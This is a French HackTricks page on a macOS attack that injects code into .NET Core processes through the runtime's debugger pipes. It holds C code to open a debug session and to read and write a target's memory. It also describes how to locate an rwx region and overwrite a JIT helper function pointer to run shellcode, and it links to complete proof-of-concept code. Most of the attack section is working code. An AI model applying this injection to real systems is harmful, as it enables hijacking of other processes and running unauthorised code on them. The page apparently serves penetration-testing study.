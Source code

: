 # Injection dans les applications .Net macOS

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Vous travaillez dans une **entreprise de cybersécurité** ? Vous souhaitez voir votre **entreprise annoncée dans HackTricks** ? ou souhaitez-vous accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**dépôt hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**dépôt hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Débogage de .NET Core <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Établir une session de débogage** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) est responsable de la gestion de la **communication** entre le débogueur et le débogué.\
Il crée 2 pipes nommés par processus .Net dans [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) en appelant [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (l'un se terminera par **`-in`** et l'autre par **`-out`**, et le reste du nom sera le même).

Ainsi, si vous allez dans le **`$TMPDIR`** de l'utilisateur, vous pourrez trouver des **fifos de débogage** que vous pourriez utiliser pour déboguer des applications .Net :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La fonction [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) gérera la communication depuis un débogueur.

La première chose qu'un débogueur doit faire est de **créer une nouvelle session de débogage**. Cela se fait en **envoyant un message via le pipe `out`** commençant par une structure `MessageHeader`, que nous pouvons obtenir à partir du code source de .NET :
```c
struct MessageHeader
{
MessageType   m_eType;        // Type of message this is
DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
DWORD         m_dwId;         // Message ID assigned by the sender of this message
DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
// never read)
union {
struct {
DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
DWORD         m_dwMinorVersion;
} VersionInfo;
...
} TypeSpecificData;

BYTE                    m_sMustBeZero[8];
}
```
Dans le cas d'une demande de nouvelle session, cette structure est remplie comme suit :
```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```
Une fois construit, nous **envoyons ceci à la cible** en utilisant l'appel système `write` :
```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```
Suivant notre en-tête, nous devons envoyer une structure `sessionRequestData`, qui contient un GUID pour identifier notre session :
```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```
Lors de l'envoi de notre demande de session, nous **lisons à partir du tuyau `out` un en-tête** qui indiquera **si** notre demande d'établir si une session de débogage a été **réussie** ou non :
```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```
### Lire la mémoire

Avec une session de débogage établie, il est possible de **lire la mémoire** en utilisant le type de message [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). Pour lire de la mémoire, le code principal nécessaire serait :
```c
bool readMemory(void *addr, int len, unsigned char **output) {

*output = (unsigned char *)malloc(len);
if (*output == NULL) {
return false;
}

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = 0;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Make sure that memory could be read before we attempt to read further
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

memset(*output, 0, len);

// Read the memory from the debugee
if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
return false;
}

return true;
}
```
Le code de la preuve de concept (POC) se trouve [ici](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Écrire en mémoire
```c
bool writeMemory(void *addr, int len, unsigned char *input) {

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = len;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Write the data
if (write(wr, input, len) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Ensure our memory write was successful
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

return true;

}
```
Le code POC utilisé pour cela peut être trouvé [ici](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### Exécution de code .NET Core <a href="#net-core-code-execution" id="net-core-code-execution"></a>

La première chose est d'identifier par exemple une région de mémoire avec **`rwx`** en cours d'exécution pour sauvegarder le shellcode à exécuter. Cela peut être facilement fait avec :
```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```
```markdown
Ensuite, pour déclencher l'exécution, il serait nécessaire de connaître un endroit où un pointeur de fonction est stocké pour l'écraser. Il est possible d'écraser un pointeur dans la **Table de Fonctions Dynamiques (DFT)**, qui est utilisée par l'exécution de .NET Core pour fournir des fonctions d'assistance pour la compilation JIT. Une liste des pointeurs de fonction pris en charge peut être trouvée dans [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

Dans les versions x64, cela est simple en utilisant la technique de **signature hunting** à la manière de mimikatz pour rechercher dans **`libcorclr.dll`** une référence au symbole **`_hlpDynamicFuncTable`**, que nous pouvons déréférencer :

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

Il ne reste plus qu'à trouver une adresse à partir de laquelle commencer notre recherche de signature. Pour ce faire, nous utilisons une autre fonction de débogage exposée, **`MT_GetDCB`**. Cela retourne un certain nombre d'informations utiles sur le processus cible, mais pour notre cas, nous sommes intéressés par un champ retourné contenant **l'adresse d'une fonction d'assistance**, **`m_helperRemoteStartAddr`**. En utilisant cette adresse, nous savons juste **où `libcorclr.dll` est situé** dans la mémoire du processus cible et nous pouvons commencer notre recherche de la DFT.

Connaissant cette adresse, il est possible d'écraser le pointeur de fonction avec celui de nos shellcodes.

Le code POC complet utilisé pour l'injection dans PowerShell peut être trouvé [ici](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## Références

* Cette technique a été prise de [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Vous travaillez dans une **entreprise de cybersécurité** ? Vous voulez voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous accéder à la **dernière version du PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**dépôt hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**dépôt hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
```
